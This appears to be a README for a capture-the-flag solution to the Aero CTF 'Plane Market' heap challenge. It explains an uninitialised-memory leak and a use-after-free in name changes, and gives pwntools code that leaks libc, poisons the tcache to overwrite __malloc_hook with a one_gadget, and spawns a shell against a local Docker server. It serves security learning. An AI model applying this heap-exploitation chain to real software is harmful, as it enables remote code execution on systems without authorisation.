





# Plane Market

My solution for Aero ctf plane market challenge.
The exploit can be run by executing exploit.sh (docker required)

## requirements

1. python
2. pwntools
3. gdb
5. one_gadget
6. gef recommended
7. pwngdb recommended
8. docker for running an exploitable server

## The Executeable
The executable start by asking for your name and after that you get a menu where you can sell planes.

-------- Plane market --------
1. Sell plane
2. Delete plane
3. View sales list
4. View plane
5. Change plane name
6. View profile
7. Exit

The important ones are Sell plane, view plane, delete plane, and change plane name.
When we sell a plane are are asked for the following information:
1. {?} Enter name size: 4
2. {?} Enter plane name: AAAA
3. {?} Enter plane cost: 1
4. {?} Do you wanna leave a comment? [Y\N]: Y
5. {?} Enter comment size: 4
6. {?} Comment: BBBB

The name filed can later be changed using change plane name and then you give the index of the plane to select what plane to change name of.
View plane will just print back the same information again the index is used to select the plane.
The planes structs is stored in the .bss section of the binary as an array of planes.
Besides the input specified above the struct also contains to time fields a delete time and a sell time, and delete time is set to -1 upon setup. Delete time is cleared upon sell pane and controls if a plane can be deleted or not.
Name and Comment character arrays are allocated on the stack with the user specified size and a pointer to the memory are stored in the plane struct, and there are no overflow read_buf is called with the specified size.


## Vulnerabilities
There is two vulnerabilities in place here: 
1. Memory are set to null after allocation and read_buf will only insert a null character if the string ends with a newline. This can be used for leaking heap addresses.
2. Change plane name check if the delete time is set before changing the name but only if the name has not been changed before. This means if we change a planes name, delete the plane and change the name again we have a use after free vulnerability. In the image bellow we see that it first compares the last changed plan index with eax (the current plane index) and jumps directly to edit plane name without checking if the plane was deleted.



### checksec on ./plane_market

* Arch:        amd64-64-little
* RELRO:       Partial RELRO
* Stack:       Canary found
* NX:          NX enabled
* PIE:         No PIE (0x400000)

## Exploit

I recommend reading this article [Malloc Internals](https://sourceware.org/glibc/wiki/MallocInternals)
 before diving into this exploit if you are not familiar with the internal workings of glibc heap implementation (tcache, fastbins, unsortedbins, etc...). 

Attack idea:
1. Use vulnerability 1 to leak libc address by allocating a plane and free it again. Next time we allocate a plane it's name will contain two pointer to a glibc unsorted bin which we can leak by entering a name only filling the first pointer. Now we view the plane to leak the pointer.
2. Use vulnerability 2 to forge a fake chunk in tcache bins pointing to a memory address close to the malloc hook.
3. Change the malloc hook to point to a one gadget.

### Leak libc address
We are given the libc and the ld-linux and can see the libc version is 2.29 which means we have tcache bins as it was introduced in 2.26.
As we want a libc address we need to allocate a space in from unsorted bins, therefor we first we need two requirements to be satisfied.

1. The tcache has to be full to make free place the name chuck in a unsorted bin.
2. The size of the allocated chucks must be bigger than 0x80 as it would otherwise be placed in fast bins instead of unsorted bins. We chose 0x200.

```python
sellPlane(0x200, b'A\n', 10, 0x200, b'B\n') #0
sellPlane(0x200, b'A\n', 10, 0x200, b'B\n') #1
sellPlane(0x200, b'A\n', 10, 0x200, b'B\n') #2
sellPlane(0x200, b'A\n', 10, 0x20, b'B\n')  #3
sellPlane(0x200, b'A\n', 10, 0x20, b'B\n')  #4

deletePlane(0)
deletePlane(1)
deletePlane(2)
deletePlane(3)
deletePlane(4)
```
Here we allocate 5 planes the first 4 planes allocate 7 chunks of size 0x210 and the final 0x200 chuck will end up in the 0x210 unsorted bin as show bellow.



Here we see that after freeing the planes we have 7 0x210 chunks in the tcache and one in the unsorted bin 0x210.

```python
sellPlane(0x8, b'A'*0x8, 10, 0x1e0, b'B\n') #0
unsortedBinAddr = u64Var(viewPlane(0)['name'].split(b'A'*8)[1])
```

Now when we allocate a new plane we will use the unsorted bin 0x200 before taking from the tcache.

before reading new name:


after creating a new plane with name `AAAAAAAA`:


As we can see the name will now be 8 A's followed by a libc address, meaning that when we view the plane we leak a libc address and can calculate the libc base address:

```python
unsortedBinAddr = u64Var(viewPlane(0)['name'].split(b'A'*8)[1])
log.info('unsortedbin address: ' + hex(unsortedBinAddr))
unsortedBinOffset = 0x1b9ea0
libc.address = unsortedBinAddr - unsortedBinOffset
log.info('libc address: ' + hex(libc.address))
```

### Create fake chunk

Now we will use the uaf bug to create a fake chunk to overwrite the malloc hook. Remember when we allocate a chunk it will allocate 0x10 more bytes to store the size of the chunk just before the use able space.

```python
sellPlane(0x60, b'70', 10, 0x0, b'A\n') #1
changePlaneName(1, b'changed\n')
deletePlane(1)
```

Here we allocate a plane and change it's name once so we can exploit the use after free bug.

```python
libOverwrite = libc.symbols['__malloc_hook']-0x13
changePlaneName(1, p64(libOverwrite) + b'\x00'*8 + b'\n')
```

Then we we change the planes name to the address we want to overwrite. Deleting the plane will put the chunk into the tcache bin 0x70. The first quad word of the of the memory we control are used as a pointer to the next available chunk in this bin. We now change it and libc now thinks that there is two chunk's available.
The size of the chunk stored just before the user space must match the tcache bin size.
This is the reason we point it to 0x13 bytes before the malloc hook. Remember that aslr will place libc at 0x00007fxxxxxxx000, so any pointer into libc will start with 0x7f and we can use that the chunk size.
Only the first most significant half of the byte is used as the size and the lower part is used for flags.



So if we now allocate a plane with a name size of 0x60 and a comment size of 0x60 we will pop both chunks show above and the comment will be our fake chunk. We fill the first 0x13 bytes with nulls and then write to the malloc hook.

```python
gadget = b'\x00'*0x13 + p64(oneGadget)
padding = b'\x00'*(0x60 - len(gadget))
gadget += padding

sellPlane(0x60, b'70', 10, 0x60, gadget) #2 (name size, name, cost of plane, comment size, comment)
```

Now we just need a one gadget to jump to.

### Finding one gadget

available one gadgets: 

```
0xc84da execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xc84dd execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xc84e0 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0xe664b execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```
At first non of the one gadgets worked for me but remember in the beginning that we had to input a name of the player? That name is stored on the stack and have size 0x80 meaning that if the name is set to \x00*0x80 we will satisfy conditions for the last one gadget as we fill 0x80 bytes from $rsp with nulls:

```python
sendName('\x00'*0x80)
```

Now it pops a shell :-) 

## Running the exploit
I have included a docker image running debian with the same libc version. 

to install and run docker image:

1. `cd dockerChallangeImage`
2. `sudo docker build -t planemarket .`
3. `sudo docker run -d -p 1024:1024 --rm -it planemarket`

Now we are hosting a server running the plane_market executable at port 1024.

To execute the exploit against the docker container just run `./exploit.sh` :-)

### debugging the exploit

be sure to have all the requirements installed and run `./debug.sh`
The gefinit file will search for gef in /opt:

```bash
source /opt/.gdbinit-gef.py
```

I recommend using gef over pwndbg for this challenge as gef has better support for heap exploitation.
